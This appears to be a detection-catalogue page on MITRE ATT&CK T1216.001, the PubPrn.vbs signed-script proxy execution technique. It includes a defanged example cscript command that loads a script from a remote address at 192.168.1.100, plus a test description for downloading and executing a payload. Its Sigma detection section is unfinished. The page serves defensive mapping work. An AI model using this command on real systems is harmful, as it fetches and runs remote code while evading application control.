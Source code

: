[back](../index.md)

Cover by sigma :x: 

# Attack: PubPrn

 Adversaries may use the trusted PubPrn script to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application control solutions that do not account for use of these scripts.

<code>PubPrn.vbs</code> is a Visual Basic script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and can be used to proxy execution from a remote site.(Citation: Enigma0x3 PubPrn Bypass) An example command is <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>.

# MITRE
## Tactic
  - defense-evasion

## technique
  - T1216.001

# Test : PubPrn.vbs Signed Script Bypass

OS: ['windows']

Description: Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.


# Sigma

 So many other things to do...